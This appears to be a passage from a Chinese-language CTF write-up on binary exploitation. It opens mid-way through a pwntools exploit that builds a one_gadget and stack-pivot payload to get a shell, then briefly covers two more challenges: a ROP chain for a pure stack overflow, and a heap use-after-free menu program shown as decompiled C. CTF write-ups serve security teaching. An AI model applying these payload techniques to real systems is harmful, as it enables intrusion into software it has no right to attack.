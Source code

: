 ```python
one_gadget = libcbase + 0x4f2c5


p.recvuntil('>')
p.sendline(str(0xe0))
p.recvuntil('Your message will be saved at ')
s_addr=int(p.recvuntil('\n',drop=True),16)

payload = 'a'*8 + p64(one_gadget)
payload += 'a'*(0xd0-len(payload))+p64(s_addr)+p64(leave)

p.recvline()
p.recvuntil('>')
p.send(payload)

p.interactive()
```

## 4.PicoCTF_2018_can-you-gets-me（纯栈溢出而且无任何保护）

用ropgadget生成rop链就行了

## 5.gyctf_2020_some_thing_exceting

常规菜单题目，没有edit漏洞在free，没置零 然后。。。。给了后门读取flag

```c
void __fastcall main(__int64 a1, char **a2, char **a3)
{
  int v3; // [rsp+4h] [rbp-Ch] BYREF
  unsigned __int64 v4; // [rsp+8h] [rbp-8h]

  v4 = __readfsqword(0x28u);
  v3 = 0;
  flag();
  menu();
  while ( 1 )
  {
    printf("> Now please tell me what you want to do :");
    _isoc99_scanf("%d", &v3);
    switch ( v3 )
    {
      case 1:
        add();
        break;
      case 2:
        exit1();
      case 3:
        free1();
        break;
      case 4:
        show();
        break;
      case 5:
        baddog();
      default:
        puts("mmmmmm!Maaybe you want Fool me!");
        baddog();
    }
  }
}
```
